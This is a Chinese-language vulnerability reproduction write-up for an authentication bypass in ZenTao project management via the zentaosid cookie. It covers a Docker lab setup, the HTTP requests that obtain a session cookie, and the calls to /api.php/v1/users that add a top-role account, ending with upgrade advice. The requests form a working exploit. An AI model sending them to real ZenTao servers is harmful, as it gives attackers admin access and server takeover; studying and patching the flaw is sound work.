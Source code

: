 # 禅道 zentaosid cookie 身份认证绕过漏洞

## 漏洞描述

禅道项目管理系统存在身份认证绕过漏洞，远程攻击者利用该漏洞可以绕过身份认证，调用任意 API 接口创建用户或修改管理员用户的密码，以管理员用户登录该系统，进而接管服务器。

参考链接：

- https://www.zentao.net/book/zentaoprohelp/41.html
- https://www.zentao.net/book/zentaopms/405.html

## 漏洞影响

```
16.x <= 禅道 < 18.12（开源版）
6.x <= 禅道 < 8.12（企业版）
3.x <= 禅道 < 4.12（旗舰版）
```

## 环境搭建

执行如下命令启动一个禅道 18.5 服务器：

```
docker compose up -d
```

docker-compose.yml

```
services:
  zentao:
    image: easysoft/zentao:18.5
    ports:
      - "8084:80"
    environment:
      - MYSQL_INTERNAL=true
    volumes:
      - /data/zentao:/data
```

服务启动后，访问 `http://your-ip:8084` 即可查看到安装页面，默认配置安装直至完成，数据库默认账号密码为 `root/123456`。

## 漏洞复现

```
POST /api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=upkbbehwgfscwizoglpw&branch=zqbcsfncxlpopmrvchsu HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 11

fields=true
```

![](images/禅道%20zentaosid%20cookie%20身份认证绕过漏洞/image-20250407140408978.png)

未添加 `zentaosid` 时，访问 `/api.php/v1/users` 提示 `{"error":"Unauthorized"}`：

```
GET /api.php/v1/users HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 11
```

![](images/禅道%20zentaosid%20cookie%20身份认证绕过漏洞/image-20250407140530510.png)

添加 `zentaosid` 绕过认证：

```
GET /api.php/v1/users HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: zentaosid=bdfda9cd81c43017703931d473ccca98;
Content-Length: 11
```

![](images/禅道%20zentaosid%20cookie%20身份认证绕过漏洞/image-20250407140639400.png)

通过该漏洞添加用户：

```
POST /api.php/v1/users HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: zentaosid=93441fc0301811a03ad2285ae52e9591;
Content-Length: 11

{
    "account":"threeki",
    "password":"thr33..",
    "realname":"threeki",
    "role":"top",
    "group":"1"
}

```

![](images/禅道%20zentaosid%20cookie%20身份认证绕过漏洞/image-20250407140215609.png)

使用添加的账号 `threeki/thr33..` 成功登录：

![](images/禅道%20zentaosid%20cookie%20身份认证绕过漏洞/image-20250407140843200.png)

## 漏洞修复

升级至最新版本 https://www.zentao.net/
